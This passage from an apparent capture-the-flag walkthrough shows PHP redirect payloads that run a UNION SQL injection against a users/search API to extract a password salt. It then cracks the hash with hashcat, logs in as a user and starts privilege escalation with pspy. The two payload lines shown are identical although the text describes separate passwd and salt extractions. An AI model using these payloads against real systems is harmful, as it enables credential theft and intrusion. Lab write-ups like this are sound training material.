 We don't need to enumerate the column and table names as we already have the database which is setup locally, this can be viewed in either mysql or sqlite3

<img src="https://i.imgur.com/lnPtox1.png"/>

Coming back to the target machine, we'll just put the sqli payload for getting the `name` and `passwd` from `user` table in the redirect request also we need the value of `salt`  but for some reason `group_concat` didn't worked so I had to extract the values seperately

```php
<?php header("Location: http://10.10.11.176:3000/api/v1/users/search?q=%27)/**/union/**/all/**/select/**/null,null,salt,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from/**/user--"); ?>

<?php header("Location: http://10.10.11.176:3000/api/v1/users/search?q=%27)/**/union/**/all/**/select/**/null,null,salt,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from/**/user--"); ?>

```

Response of the passwd

<img src="https://i.imgur.com/2JBwnCa.png"/>

Response of salt

<img src="https://i.imgur.com/8HNlfT3.png"/>


The hash can be cracked with `hashcat`  by following the method shown in this repo, we need to convert the salt into base64, convert hash into hex and then base64 encode and then crack it using mode `10900`

https://github.com/kxcode/KrackerGo


<img src="https://i.imgur.com/PvfLgct.png"/>

This is how the hash will look like 

```
sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```

<img src="https://i.imgur.com/Ozv8d08.png"/>

<img src="https://i.imgur.com/yNx3CjJ.png"/>

With this password we can login as `susanne`

<img src="https://i.imgur.com/FRdbHjS.png"/>

I checked if we can use sudo with this user but it wasn't added in sudoers group, on transferring `pspy` and executing, it showed that something was being ran as `root` user

<img src="https://i.imgur.com/sfCZyLC.png"/>
